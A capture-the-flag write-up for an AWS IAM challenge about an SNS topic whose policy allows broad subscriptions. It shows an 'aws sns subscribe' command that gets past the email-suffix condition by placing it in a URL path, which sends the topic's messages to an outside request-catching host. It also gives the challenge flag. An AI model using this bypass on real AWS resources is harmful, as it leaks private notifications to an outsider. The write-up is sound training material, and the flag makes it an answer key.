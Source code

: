 # Challenge number
3

## Challenge Statement
Enable Push Notifications
We got a message for you. Can you get it?
## IAM Policy 
```
{
    "Version": "2008-10-17",
    "Id": "Statement1",
    "Statement": [
        {
            "Sid": "Statement1",
            "Effect": "Allow",
            "Principal": {
                "AWS": "*"
            },
            "Action": "SNS:Subscribe",
            "Resource": "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications",
            "Condition": {
                "StringLike": {
                    "sns:Endpoint": "*@tbic.wiz.io"
                }
            }
        }
    ]
}
```              
### write a short analysis about the IAM policy here
```
* What do I have access to?
Subscribe to an SNS topic
* What don't I have access to?
Modify the SNS topic permissions.
* What do I find interesting?
The policy allows unauthorized subscriptions
* etc
```

## Solution
Ran the following command to subscribe
aws sns subscribe \
    --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications \
    --protocol https \
    --notification-endpoint 'https://sn.requestcatcher.com/test@tbic.wiz.io'

The flag: {wiz:subscribed-successfully}

## Reflection
* What was your approach?
Attempted to subscribe to an SNS topic using available permissions.
* What was the biggest challenge?
Determining how to catch the request.
* How did you overcome the challenges?
Explored "Request Catcher" which is a tool for catching requests.
* What led to the break through?
Successfully subscribing without authentication.
* On the blue side, how can the learning be used to properly defend the important assets?
Restrict sns:Subscribe permissions to trusted users only.

